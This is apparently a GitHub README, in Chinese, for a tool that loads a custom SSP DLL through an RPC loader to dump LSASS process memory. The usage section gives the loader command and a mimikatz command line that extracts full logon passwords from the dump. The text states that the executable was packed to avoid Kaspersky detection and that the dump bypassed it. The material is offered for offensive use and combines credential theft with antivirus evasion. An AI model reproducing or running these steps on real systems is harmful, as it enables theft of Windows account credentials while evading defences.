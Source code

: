 # ssp_dump_lsass

https://github.com/whyjoezk/dump_lsass/tree/1c07b4038c7ef2c60584bec05d19ec4141ecb3cf  
参考这个仓库，可能是本机环境问题，该仓库的dll无法dump出lsass  
这里又参考以下两篇文章重新生成dll  
https://blog.csdn.net/qq_39101049/article/details/105550641  
https://www.cnblogs.com/w0x68y/p/14138953.html  
使用vs2019编译，选择x64编译，未设置字符集  
对于exe进行了加壳防止卡巴查杀，在x64目录下  

## 使用方法

`ssp_rpc_loader_protected.exe c:\Users\xxx\Desktop\Project4.dll`  
`dir c:\`  
`mimikatz.exe "sekurlsa::minidump 1.bin" "sekurlsa::logonPasswords full" "exit"`  

## 效果
最终dump内存时成功绕过kaba检测  
![image](https://user-images.githubusercontent.com/78201553/184787444-0a3b6755-0940-4a8b-94ab-5c85b7b387be.png)
